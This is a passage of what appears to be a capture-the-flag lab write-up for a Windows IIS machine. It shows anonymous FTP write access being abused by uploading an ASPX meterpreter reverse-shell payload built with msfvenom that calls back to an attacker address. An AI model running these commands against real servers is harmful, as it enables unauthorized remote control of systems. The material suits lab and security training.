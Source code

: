 Attempting to connect anonymously via FTP reveals that the server does allow anonymous login
with `read/write privileges` in the `IIS server directory`.

# Exploitation 

Because of `read and write` privillage we can be able to drop an `aspx` reverse shell on the target in the directory and execute it by browsing to the file via a web server.`Active Server Page Extended` (`ASPX`) is a file type/extension written for [Microsoft's ASP.NET Framework](https://docs.microsoft.com/en-us/aspnet/overview). On a web server running the ASP.NET framework, web form pages can be generated for users to input data. On the server side, the information will be converted into HTML. We can take advantage of this by using an ASPX-based web shell to control the underlying Windows operating system. Let's witness this first-hand by utilizing the `Antak Webshell`.

we now use `msfvenom` to create an exploit inform of an `aspx` file and put it to the server via `ftp` 

###### code

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4445 -f aspx
> devel.aspx
```

###### output
![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Devel/Screenshots/msfvenomdevel.png)

After creating the `aspx` exploit we can then  upload it to the server using ftp  via `put command`

###### code

```sh
put ./devel.aspx
```
